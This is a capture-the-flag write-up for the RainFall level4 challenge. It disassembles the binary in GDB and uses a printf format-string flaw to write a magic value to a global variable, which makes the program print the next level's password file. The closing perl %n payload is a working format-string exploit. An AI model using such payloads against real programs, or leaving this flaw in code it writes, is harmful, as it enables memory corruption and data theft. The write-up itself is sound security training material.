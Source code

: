 # level4

> We use [GDB peda](https://github.com/longld/peda) in order to get a better GDB visualization.

1. [Analysis](#analysis)
2. [Exploit](#exploit)

## Analysis

As in the previous level, `main` does nothing but call a function `n`.

```gdb
gdb-peda$ disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   ebp
   0x08048458 <+1>:     mov    ebp,esp
   0x0804845a <+3>:     sub    esp,0x218                     ; 536 bytes of stack space reclaimed
   0x08048460 <+9>:     mov    eax,ds:0x8049804              ; eax = stdin
   0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax       ; push stdin to stack
   0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200     ; push 512 to stack
   0x08048471 <+26>:    lea    eax,[ebp-0x208]               ; load buffer address in eax
   0x08048477 <+32>:    mov    DWORD PTR [esp],eax           ; push eax to stack
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>         ; call fgets
   0x0804847f <+40>:    lea    eax,[ebp-0x208]               ; load buffer address in eax
   0x08048485 <+46>:    mov    DWORD PTR [esp],eax           ; push eax to stack
   0x08048488 <+49>:    call   0x8048444 <p>                 ; call p
   0x0804848d <+54>:    mov    eax,ds:0x8049810              ; eax = data segment variable (that equals 0 here)
   0x08048492 <+59>:    cmp    eax,0x1025544                 ; compare eax to 0x1025544 (16930114 in decimal)
   0x08048497 <+64>:    jne    0x80484a5 <n+78>              ; jump to leave instruction if not equal
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590     ; push address 0x8048590 to stack (contains "/bin/cat /home/user/level5/.pass")
   0x080484a0 <+73>:    call   0x8048360 <system@plt>        ; call system
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
```

Functions called : `fgets`, `system`, and `p`

```gdb
gdb-peda$ disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18                     ; 23 bytes of stack space reclaimed
   0x0804844a <+6>:     mov    eax,DWORD PTR [ebp+0x8]      ; copy buffer address (argument from `n` function) to eax
   0x0804844d <+9>:     mov    DWORD PTR [esp],eax          ; push eax to stack
   0x08048450 <+12>:    call   0x8048340 <printf@plt>       ; call printf
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```
Function called : `printf`

Actually, the behaviour of this program is similar to the previous one. It call `fgets` to read from stdin, print the buffer thanks to `printf`, then assign the value of the address `0x8049810` to `eax` and compare it to an arbitrary value (0x1025544) to determine if the function will leave or execute a call to the `system` function before.

We dump the content of the address `0x8048590`, used as the parameter of `system`, using gdb.

```gdb
gdb-peda$ x/s 0x8048590
0x8048590: "/bin/cat /home/user/level5/.pass"
```

So, what we have to do is to write the value '0x1025544' ('16930114' in decimal) to the address `0x8049810`, using the format string vulnerability of `printf`. 

## Exploit

```console
level4@RainFall:~$ perl -e 'print "\x10\x98\x04\x08%x%x%x%x%x%x%x%x%x%x%16930052x%n"' > /tmp/level4
level4@RainFall:~$ cat /tmp/level4 | ./level4

```
